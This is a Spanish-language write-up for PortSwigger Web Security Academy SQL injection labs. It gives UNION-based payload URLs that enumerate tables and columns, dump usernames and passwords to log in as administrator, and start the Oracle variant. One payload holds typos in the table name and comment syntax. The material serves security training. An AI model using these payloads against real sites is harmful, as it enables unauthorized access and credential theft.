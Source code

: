 Para resolver el laboratorio, inicie sesión como usuario `administrator`.

Obtener el nombre de las bases de datos:

```sql
https://acb21fb81e5d5d0880723541001000f8.web-security-academy.net/filter?category='+UNION+SELECT+NULL,table_name+FROM+information_schema.tables-- -
```

Nos damos cuenta de que  existe la tabla `users_qwxkvs`, obtener la cantidad de columnas de esa tabla:

```sql
https://acb21fb81e5d5d0880723541001000f8.web-security-academy.net/filter?category='+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+where+table_name='sers_qwxkvs'- -
```

Tiene las siguientes columnas: `username_oyiubc` y `password_aiynfr`, vamos a obtener el contenido de esas columnas:

```sql
https://acb21fb81e5d5d0880723541001000f8.web-security-academy.net/filter?category='+UNION+SELECT+username_oyiubc,password_aiynfr+FROM+users_qwxkvs-- -
```

Obtener las credenciales:

![foto](../Portswigger%20images/SQLi2.PNG)

Ahora iniciamos sesion como administrador.

### SQL injection attack, listing the database contents on Oracle

Para resolver el laboratorio, inicie sesión como usuario `administrator`.

Es el mismo ejemplo del anterior solo que la sintaxis es de oracle.

Obtener el nombre de las bases de datos:

```sql
https://ac731fc51efb9d2380bb4cac00a2007d.web-security-academy.net/filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables--
```
